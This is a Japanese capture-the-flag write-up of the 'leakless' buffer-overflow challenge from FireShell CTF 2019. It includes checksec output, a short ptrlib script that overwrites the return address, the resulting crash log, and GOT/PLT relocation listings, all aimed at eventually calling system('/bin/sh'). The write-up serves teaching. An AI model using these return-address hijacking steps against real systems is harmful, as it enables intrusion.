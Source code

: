 # [pwn 60pts] leakless - FireShell CTF 2019
昔学校でこの問題を取り上げて勉強会もしたので、その際の資料およびdocker環境も参考にどうぞ：

[https://bitbucket.org/ptr-yudai/ocamlabctf/src/master/10th/](https://bitbucket.org/ptr-yudai/ocamlabctf/src/master/10th/)

32ビットバイナリです。
```
$ checksec leakless
[*] 'leakless'
    Arch:       32 bits (little endian)
    NX:         NX enabled
    SSP:        SSP disabled (No canary found)
    RELRO:      Partial RELRO
    PIE:        PIE disabled
```

バッファオーバーフローがあるだけというシンプルな構成ですが、libcが配布されていません。
ということで、まずは普通に解いてみます。

## libc databaseを用いた解法
SSPは無効なので単にリターンアドレスを書き換えれば任意のアドレスへジャンプできます。
```python
from ptrlib import *

sock = Process("./leakless")

payload = b"A" * 0x4c
payload += b"B" * 4
sock.send(payload)

sock.interactive()
```
dmesgで結果を確認しましょう。
```
[ 3066.166850] leakless[10728]: segfault at 42424242 ip 0000000042424242 sp 00000000ff909f00 error 14
```
目標は`system('/bin/sh')`を呼び出すことですが、そのためにはlibcのロードアドレスと、libcそのものが必要になります。（systemはGOTに存在しないため。）

GOTを見てみましょう。
```
$ readelf -r leakless

再配置セクション '.rel.dyn' (オフセット 0x33c) は 3 個のエントリから構成されています:
 オフセット 情報    型              シンボル値 シンボル名
08049ff4  00000506 R_386_GLOB_DAT    00000000   __gmon_start__
08049ff8  00000806 R_386_GLOB_DAT    00000000   stdin@GLIBC_2.0
08049ffc  00000a06 R_386_GLOB_DAT    00000000   stdout@GLIBC_2.0

再配置セクション '.rel.plt' (オフセット 0x354) は 7 個のエントリから構成されています:
 オフセット 情報    型              シンボル値 シンボル名
0804a00c  00000107 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   signal@GLIBC_2.0
0804a014  00000307 R_386_JUMP_SLOT   00000000   alarm@GLIBC_2.0
0804a018  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804a020  00000707 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a024  00000907 R_386_JUMP_SLOT   00000000   setvbuf@GLIBC_2.0
```
簡単に説明すると、GOTに登録されている関数が一度呼び出されると、その関数のメモリ上での実際のアドレスが書き込まれます。
実際にバイナリはPLTと呼ばれる領域をcallするのですが、PLTで関数の名前を解決します。
そのため、一度も呼び出されていない関数のGOTには名前解決用のPLT領域のアドレスが書き込まれているので注意してください。
